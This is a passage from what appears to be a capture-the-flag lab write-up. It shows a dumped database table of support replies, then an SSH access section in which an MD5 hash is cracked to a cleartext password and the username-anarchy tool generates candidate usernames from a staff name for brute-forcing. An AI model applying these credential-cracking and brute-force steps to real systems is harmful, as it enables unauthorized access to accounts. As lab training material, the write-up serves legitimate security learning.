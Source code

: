 ```bash
Table: answers                                      
[2 entries]                                        
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
...
```


## SSH Access


### Generate Username to bruteforce

Put the md5 hash `0c090c365fa0559b151a43e0fea39710` to crackstation, found cleartext password in DB : `denjanjade122566`

Tried login to ssh with user `root` and `admin`, both failed

Use `username-anarchy` to generate usernames based on the site reply user : `Thomas Keller`

```bash
┌──(root㉿kali)-[~/socket/username-anarchy]
└─# ruby username-anarchy Thomas Keller | tee usernames.txt
thomas
thomaskeller
thomas.keller
thomaske
thomkell
thomask
t.keller
tkeller
kthomas
k.thomas
kellert
keller
keller.t
keller.thomas
tk
```
